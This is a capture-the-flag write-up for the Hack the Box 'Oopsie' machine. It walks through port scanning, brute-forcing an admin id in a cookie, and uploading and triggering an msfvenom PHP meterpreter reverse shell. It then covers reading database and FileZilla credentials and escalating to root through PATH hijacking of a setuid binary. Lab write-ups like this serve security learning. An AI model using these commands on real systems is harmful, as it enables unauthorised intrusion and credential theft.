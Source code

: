 +++
title = "Hack the Box: Oopsie"
date = 2023-01-15
description = "Hack the Box: Oopsie"
tags = [
    "Hack the Box",
    "Write-up"
]
categories = [
    "Hack the Box",
    "Write-up"
]
series = ["Hack the Box"]
+++

Hack the Box: Oopsie

<!--more-->

# Oopsie

## Enumeration

### Nmap

```
# nmap -p- -T4 -A 10.10.10.28
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-24 10:05 CEST
Nmap scan report for 10.10.10.28
Host is up (0.028s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/24%OT=22%CT=1%CU=37344%PV=Y%DS=2%DC=T%G=Y%TM=5EA29DE
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.43 ms 10.10.14.1
2   43.48 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 60.15 seconds
```

### Burp and connection to the admin panel:

We can see /cdn/login from the target -> Site map burp function we can try to login with `MEGACORP_4dm1n!!` password from the last machine compromised.

We can also see that our admin id is 1 and the cookie is “custom made” we can try to brute force the id in order to find the super admin one and get access to the upload page. hit CTRL + i, set the position on the `1` and generate with bash ``for i in `seq 1 100`; do echo $i; done`` a sequence of numbers. Add them to the payload and check `Follow redirections: Always` and `process cookies in redirections`. One request is bigger than the other and while examining it we can get the super admin id `86575`.

Now using burp we can access to the upload page.

## Foothold

### Reverse shell

Let’s build a reverse shell with msfvenom first:

```
# msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=6000 -f raw -o shell.php
```

Upload it using the /upload/ page and burp (you need to modify the user id to achieve it). We have no idea where the file has be dropped so let’s enumerate directories using dirsearch from github:

```
# python3 dirsearch.py -u http://10.10.10.28 -e php
```

We guess the reverse shell is in the /upload/. We need to set-up an handler to get our meterpreter working:

```
# msf5 exploit(multi/handler) > use exploit/multi/handler
# msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
# msf5 exploit(multi/handler) > set LHOTS tun0
# msf5 exploit(multi/handler) > set LPORT 6000
# msf5 exploit(multi/handler) > run
```

Trigger the reverse shell with:

```
# curl http://10.10.10.28/uploads/shell.php
```

This should pop a meterpreter. In the meterpreter run `shell`. You should be able to run the following:

```
# SHELL=/bin/bash script -q /dev/null
# stty raw -echo
# fg
# reset
# xterm
```

```
# id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

We can see the sticky bit setuid :

```
# find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
# ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker
```

### Lateral movement

We can get the user credentials from the db.php file:

```
# ls /var/www/html/cdn-cgi/login/
# cat /var/www/html/cdn-cgi/login/db.php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

We can now ssh using those credential and get the user flag in:

```
# cat /home/robert/user.txt
```

## Privilege escalation

```
# export PATH=/tmp:$PATH
# cd /tmp/
# echo '/bin/sh' > cat
# chmod +x cat
# /usr/bin/bugtracker
```

We can get ftpuser account and password in:

```
# strings /root/.config/filezilla/filezilla.xml
...
<User>ftpuser</User>
<Pass>mc@F1l3ZilL4</Pass>
...
```

```
# cat /root/root.txt
```